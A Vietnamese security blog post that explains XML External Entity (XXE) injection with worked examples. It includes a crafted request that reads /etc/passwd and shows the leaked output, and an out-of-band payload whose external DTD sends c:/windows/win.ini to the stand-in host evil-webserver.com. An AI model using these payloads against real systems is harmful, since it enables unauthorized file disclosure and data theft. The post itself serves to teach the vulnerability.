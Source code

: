 ```yaml
---
layout: post
title: Đi sâu vào phân tích lỗi XXE - Một bài viết hay,
date: 2021-10-23 00:32:20 +0700
description: Đi sâu vào phân tích lỗi XXE - Một bài viết hay
img: 2021/10/23/xxe_keyfeatures.png
fig-caption: # Add figcaption (optional)
tags: [Security, WebSecurity]
---
```



XXE Injection luôn nằm trong danh sách Top 10 của OWASP trong một vài năm. XXE Injection không chỉ giới hạn cho các Web application; bất cứ nơi nào có XML Parser (web, host, software), là ứng cử tiềm năng cho XXE tồn tại.

Bài viết này chúng ta sẽ cùng nhau đi phân tích cách thức hoạt động của XXE, một số cách khai thác lỗ hổng XXE và đề cập đến hai cuộc tấn công XXE thực lấy nguồn từ SRT.

## 1.XML và các ENTITYs của nó

Điểm hay ho nhất về XXE là nó là chức năng hoàn toàn hợp lệ của ngôn ngữ XML. Không có "black magic" với cuộc tấn công này, chỉ đơn giản là một tính năng bị lạm dụng thường xuyên được bật theo mặc định. Tính năng này là external entity.

Để hiểu ENTITY, trước tiên chúng ta phải xem qua về các file Document Type Definition(DTD). File DTD là một loại tệp XML đặc biệt chứa thông tin về định dạng hoặc cấu trúc của XML. Chúng được sử dụng để thiết lập tính nhất quán giữa các XML files khác nhau. Các tệp DTD này có thể chứa một phần tử được gọi là ENTITY. Xem bên dưới để biết ví dụ về tệp .dtd:

```
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```

Chúng ta sẽ không phân tích rõ ràng về cú pháp của tệp .dtd, chỉ cần hiểu rằng bất kỳ XML nào tham chiếu đến tệp .dtd này sẽ cần tuân theo cấu trúc của nó (source).

Các thẻ ENTITY bên trong chỉ đơn giản là một shortcut đến một ký tự đặc biệt có thể được tham chiếu bởi XML file đang gọi (source). Lưu ý rằng ENTITY tag cuối cùng đang thực sự kéo nội dung của một tệp cục bộ, thông qua từ khóa SYSTEM.

Tệp .dtd ở trên có thể được sử dụng như sau:

```
<?xml version=”1.0″ encoding=”UTF-8″?>
<!DOCTYPE foo SYSTEM “http://validserver.com/formatting.dtd”>
<specifications>&file;</specifications>
```

formatting.dtd được gọi bằng cách sử dụng DOCTYPE tag và  XML file có thể tham chiếu các ENTITY và cấu trúc bên trong.

ENTITY có thể được sử dụng mà không cần hình thức của một tệp .dtd đầy đủ. Bằng cách gọi DOCTYPE và sử dụng dấu ngoặc vuông [], bạn có thể tham chiếu các ENTITY tag để chỉ sử dụng trong tệp XML đó. Dưới đây, tệp application.conf được tham chiếu để sử dụng trong các tags```<configuration> </configuration>```, không có tệp .dtd đầy đủ để lưu trữ nó:

```
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
Tóm lại:

* Các tệp DTD có thể là bên ngoài hoặc bên trong tệp XML
* ENTITY tồn tại trong tệp DTD
* ENTITY có thể gọi các tệp hệ thống cục bộ

## 2. Injection Fun

Khi dữ liệu được chuyển đến máy chủ trong một Yêu cầu HTTP, nó sẽ mở ra khả năng bị lạm dụng từ phía người dùng. Các nhà phát triển web đang đặt niềm tin của họ vào máy khách sẽ không sửa đổi mã hoặc (giải pháp tốt hơn) đang đưa ra các biện pháp kiểm soát để ngăn chặn các sửa đổi độc hại hoạt động. Bất kể ý định của nhà phát triển web là gì, lỗi vẫn xảy ra và việc inject vẫn hay thường được thực thi thành công trên máy chủ. Đây là một ví dụ, trong đó dữ liệu từ một biểu mẫu được gói trong XML và được gửi đến máy chủ để được xử lý. Kẻ tấn công sẽ:

* Chặn yêu cầu POST dễ bị tấn công bằng proxy web (Burpsuite, Zap, v.v.)
* Thêm thẻ injection ENTITY tag và &xxe; variable reference. Đảm bảo & xxe; variable reference là dữ liệu sẽ được trả về và hiển thị
* Giải phóng yêu cầu POST bị chặn

Điều này sẽ dẫn đến yêu cầu POST được tạo thủ công sau (injected content in red):

```
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM “file:///etc/passwd” >]>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed &xxe;</body>
</note>ss
```

Tại máy chủ, giả sử dữ liệu hợp lệ đã được nhập vào biểu mẫu, parse XML data được gửi lên này trước khi lưu nó vào backend và trả về dữ liệu đã parse với dữ liệu hợp lệ ban đầu. Trong trường hợp này, nội dung của ```/etc/passwd``` được hiển thị.

```
HTTP/1.1 200 OK
Content-Type: text/xml;charset=UTF-8
Server: Microsoft-IIS/7.5
Date: Sat, 19 Apr 2019 13:08:49 GMT
Connection: close
Content-Length: 1039

Note saved! From Bob to Alice about “Sync Meeting” at 1200: Meeting time has changed
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
..snip…
```

## 3. Sneaking Out of Band

Bình thường ta sẽ khi nhìn thấy XXE rõ ràng như thế này, nhưng có trường hợp XML được chuyển đến máy chủ không được hiển thị / trả lại theo cách thuận lợi như vậy. Trong trường hợp thế này XML vẫn có thể được inject, nhưng không được trả lại cho máy khách trong phản hồi HTTP, chúng ta chuyển sang các tệp .dtd bên ngoài đó đã được đề cập trước đó. Tham chiếu DOCTYPE đến các tệp .dtd bên ngoài cho phép chúng ta thực hiện cuộc tấn công này hoàn toàn out of band.

Chúng ta sẽ sửa đổi ví dụ trước để mô tả điều này. Chúng tôi cũng sẽ giả định đây là một máy chủ Windows. Trong ví dụ trước, một tham chiếu ENTITY file đã được lưu vào biến xxe, biến này được tham chiếu trong form. Trong ví dụ này, tham chiếu ENTITY dành cho máy chủ bên ngoài https://evil-webserver.com:

```
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>
```

Payload.dtd bên ngoài chứa những thứ sau:

```
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```

Hãy lưu ý rằng ```file:///c:/windows/win.ini``` được chứa trong tệp .dtd, chứ không phải trong mã XXE được đưa vào. Đây là một động thái lén lút cho phép chúng ta ẩn tệp nào chúng ta đang cố gắng trích xuất từ ​​nhật ký truy cập máy chủ.

## 4. Pass the SOAP

Lấy ví dụ, một tình huống thực tế từ SRC Team. Một thành viên SRT đã tìm thấy một dịch vụ web cung cấp nhiều phương thức API SOAP. SOAP (Simple Object Access Protocol) là một cấu trúc giao tiếp cho phép nhiều applications/elements khác nhau giao tiếp với nhau. Quan trọng hơn nó cũng có cấu trúc như XML, khiến nó có thể dễ bị tấn công bởi XXE.

Trong trường hợp này, các phương thức API khác nhau có các phần ```<XMLData>``` có thể chứa các ENTITY tags được chèn vào. Vì vậy, việc đưa ra yêu cầu POST request /ConductOrders.asmx endpoint có thể sẽ tạo ra một yêu cầu đến máy chủ web của kẻ tấn công:

Kết quả là máy chủ sẽ tìm nạp nội dung của external dtd

Mã XML này sẽ hướng dẫn XML Parser gửi nội dung của tệp c:\windows\win.ini trong yêu cầu đến máy chủ của kẻ tấn công, bằng cách thêm biến charlie vào cuối yêu cầu, làm cho nó có thể xem được trong nhật ký máy chủ của kẻ tấn công:

Và cứ như vậy, bất kỳ tệp cục bộ nào mà máy chủ web có thể đọc được đều là của anh ta để đánh cắp. 

Lưu ý: Permission là quan trọng trong cuộc tấn công này. Nếu máy chủ web (hoặc người dùng www-data) không có quyền, nó sẽ không trả lại nội dung file. Đây là lý do tại sao chúng ta load ```/etc/passwd``` thay vì ```/etc/shadow``` trong các Proof of Concept (PoC) này.  

